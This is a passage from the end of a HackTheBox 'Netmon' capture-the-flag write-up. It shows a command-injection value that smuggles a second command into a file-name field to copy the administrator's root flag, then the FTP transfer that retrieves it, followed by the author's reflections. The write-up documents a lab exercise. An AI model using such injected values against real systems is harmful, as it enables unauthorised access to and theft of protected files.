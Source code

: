 ```test.txt;more c:\Users\Administrator\Desktop\root.txt > c:\sdb.txt```  
local: sdb.txt remote: sdb.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
WARNING! 2 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
74 bytes received in 0.04 secs (1.7553 kB/s)

root@apollo:~/htb/netmon# cat sdb.txt
��30189******************a67cc
```

We win! 

# Conclusion

How easy user was and how long I spent on it was a tad embarassing - but it reminded me to actually look at everything I get as a result and not assume I know what the answer is before I actually *know* what the answer is. Root was pretty fun - I really enjoyed that the creator made you think about the user and not just use a tool, brute forcing has its place but CTF machines are not really it imo.
